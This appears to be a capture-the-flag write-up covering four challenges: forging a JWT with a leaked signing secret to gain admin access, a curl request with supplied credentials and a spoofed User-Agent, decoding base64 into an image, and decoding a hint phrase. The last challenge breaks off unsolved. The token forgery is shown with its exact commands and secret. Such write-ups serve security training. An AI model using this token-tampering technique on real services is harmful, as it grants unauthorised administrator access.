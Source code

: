**Web: Jasons Baking Services**
First, i will analyze the code, in the `router.js` i found.
```
route.get('/flag', authenticateJson, (req, res) => {
    if (!req.user) {
        res.render('index')
    } else {
        if (req.user.admin == true) {
            res.send("// Print Flag Here")
        } else {
            res.render('dashboard', {name: req.user.name})
        }
    }

```
If i register with a user, the platform will generate an access token for which was the `jwt`.
```
        if (user) {
            bcrypt
                .compare(req.body.password, user.Password, function (err, result) {
                    if (result) {
                        const user = {
                            name: username,
                            authorized: true,
                            admin: false
                        }
                        const accessToken = generateAccessToken(user)
                        req.session.username = username
```
in `the config.env` i found the secret key which sign the `jwt`. 
`SECRET=y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa`. Now i will register and then tamper my jwt using Jwt tool
I intercepted it with burp and see the jwt, i change the admin false to True, I will tamper it now.
```
└─# python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYmxvaGFja2VyIiwiYXV0aG9yaXplZCI6dHJ1ZSwiYWRtaW4iOmZhbHNlLCJpYXQiOjE2OTg3NzE4MTksImV4cCI6MTY5ODc3MjExOX0.C2qPzFUdBoDcMVbMzqCZGn8N2gcaOR7S1NJZARUHdQA -T -p y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa -S hs256
```
or use this : http://jwt.io/
Then just change cookie on burp. and got flag.

**Web: Aliens Make Me Wanna Curl**
We are expecting communications from an artificial intelligence device called MU-TH-UR 6000, referred to as mother by the crew. We disabled the login page and implemented a different method of authentication. The username is mother and the password is ovomorph. To ensure security, only mothers specific browser is allowed.
Here i need to use curl to get the flag.
` curl -u mother:ovomorph -H "User-Agent: MU-TH-UR 6000"  https://spooky-aliens-make-me-wanna-curl-web.chals.io/flag          
NICC{dOnt_d3pEnD_On_h3AdeRs_4_s3eCu1ty}`

**Crypto: What have we found here...**
I found a lot of base64 in file, i tried cyberchef but size is limited,
Then i tried,
```
base64 -d file.txt | less
<FF><D8><FF><E0>^@^PJFIF^@^A^A^A^@`^@`^@^@<FF><DB>^@C^@^C^B^B^C^B^B^C^C^C^C^D^C^C^D^E^H^E^E^D^D^E
```
i found JFIF, i think it's a picture, i will decode into a jpeg/
```
└─# base64 -d found.txt > flag.jpg
file flag.jpg
flag.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, baseline, precision 8, 1080x1077, components 3

```
Opened image and found the flag.`NICC{Just_chillin}`
**Crypto: If the key fits...**
I am trying to escape this 64-story horror house and the only way to escape is by finding the flag in this text file! Can you help me crack into the file and get the flag? The only hint I get is this random phrase: MWwwdjM1eW1tM3RyMWNrM3Q1ISEh.
When i decoded this from base64, i found `1l0v35ymm3tr1ck3t5!!!`, but it's the incorrect flag.
